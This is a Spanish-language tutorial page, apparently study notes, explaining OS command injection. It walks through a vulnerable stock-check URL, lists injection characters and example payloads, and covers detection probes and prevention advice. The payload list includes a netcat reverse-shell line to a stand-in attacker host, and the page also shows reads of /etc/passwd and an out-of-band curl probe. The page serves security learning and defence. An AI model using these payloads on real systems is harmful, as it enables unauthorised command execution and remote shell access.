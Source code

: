 ## 🚧 OS Command Injection

---

# 🔐 ¿Qué es OS Command Injection?

**OS Command Injection** (tambien conocido como **Shell Injection**) es una vulnerabilidad que ocurre cuando una aplicación web permite que un atacante inyecte y ejecute **comandos arbitrarios del sistema operativo** en el servidor.

Cuando esto ocurre, el atacante puede:

- Ejecutar comandos con los mismos privilegios que el proceso vulnerable (por ejemplo, el usuario del servidor web).
- Acceder a archivos sensibles, credenciales, servicios de red internos.
- En muchos casos, escalar privilegios o pivotear hacia otros sistemas internos.

> 🚀 Es una de las vulnerabilidades **más críticas** que puede sufrir una aplicación web.

---

# 🔹 Ejemplo de funcionamiento vulnerable

### Contexto:

Una tienda online permite consultar el stock de un producto en una sucursal específica mediante la siguiente URL:

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

En el backend, el sistema ejecuta el siguiente comando en una terminal para consultar el stock en sistemas legados:

```bash
stockreport.pl 381 29
```

El problema aparece cuando los valores de `productID` y `storeID` son inyectados directamente en el comando del sistema **sin ninguna validación o sanitización**.

---

# 🚨 Explotación básica

El atacante puede enviar lo siguiente como valor de `productID`:

```
& echo aiwefwlguh &
```

El comando resultante que se ejecuta es:

```bash
stockreport.pl & echo aiwefwlguh & 29
```

Lo que ejecuta:
1. `stockreport.pl` (sin argumentos, produce un error).
2. `echo aiwefwlguh` (el string aparece en la salida).
3. `29` (interpreta `29` como un comando, produce un error).

### Resultado en pantalla:
```
Error - productID was not provided
aioefwguh
29: command not found
```

### 🔗 Caracteres de inyección comunes en Linux:

| Carácter | Funcón |
|----------|--------|
| `&` | Ejecuta comandos en secuencia. |
| `;` | Separa comandos independientes. |
| `|` | Pipe: conecta la salida de un comando con otro. |
| `||`, `&&` | Condicionales: ejecuta solo si el anterior falla/exitoso. |
| `\`` o `$()` | Ejecuta comandos en subshell. |

### 🔗 Ejemplo de payloads:

```bash
productID=381; whoami
productID=381 && ls /
productID=381 | nc attacker.com 4444 -e /bin/bash
productID=381$(id)
```

---

# 🔢 Variantes por sistema operativo

### 🌎 Linux:

| Comando | Descripción |
|---------|-------------|
| `id` | Muestra el usuario actual. |
| `uname -a` | Info del kernel y sistema. |
| `cat /etc/passwd` | Usuarios del sistema. |
| `netstat -tuln` | Puertos abiertos. |

### 🌊 Windows:

| Comando | Descripción |
|---------|-------------|
| `whoami` | Usuario actual. |
| `dir` | Lista archivos del directorio. |
| `ipconfig` | Info de red. |
| `type C:\\Windows\\win.ini` | Leer archivo clásico para prueba. |

> ⚠️ En Windows, los comandos se pueden inyectar con `&`, `&&`, `|`, `^`.

---

# 🔒 Técnicas para detectar OS Command Injection

1. **Inyección de comandos de eco:**
   ```bash
   & echo testcmd &
   ```
   Si "testcmd" aparece en la respuesta, hay ejecución.

2. **Retraso por tiempo (blind):**
   ```bash
   ; sleep 10
   ```
   Si la respuesta demora, el comando fue ejecutado aunque no haya salida visible.

3. **Out-of-Band (OAST):**
   ```bash
   ; curl http://your-burpcollaborator.net
   ```
   Se usa para detectar ejecución si no hay respuesta directa (blind RCE).

---

# 🚫 Cómo prevenir OS Command Injection

### ✅ 1. Evitar construir comandos con datos del usuario
- Usar APIs del lenguaje que **no invocan shell** (por ejemplo, `subprocess.run()` en Python con `shell=False`).

### ✅ 2. Validar estrictamente la entrada
- Usar **listas blancas** (whitelisting) para los argumentos esperados.
- Rechazar cualquier caracter especial como `;`, `&`, `|`, `>`.

### ✅ 3. Uso de privilegios mínimos
- El proceso que ejecuta el comando debe correr como un usuario **con permisos limitados**.

### ✅ 4. Escape adecuado de argumentos
- Si realmente se deben usar en comandos, escapar correctamente según el sistema operativo.

---

# 🎓 Conclusión

**OS Command Injection** es una de las vulnerabilidades más críticas debido a su capacidad de proporcionar al atacante **acceso directo al sistema operativo** del servidor. Con pocos caracteres, un atacante puede escalar desde un acceso limitado hasta tomar control completo del entorno.

La prevención se basa en:
- **No confiar nunca en la entrada del usuario**.
- Evitar ejecutar comandos innecesariamente.
- Implementar validaciones estrictas y usar métodos seguros para ejecutar procesos si es inevitable.

> ⚠️ Como pentester, la detección de OS command injection puede ser sutil, pero los resultados son devastadores cuando se explota correctamente.

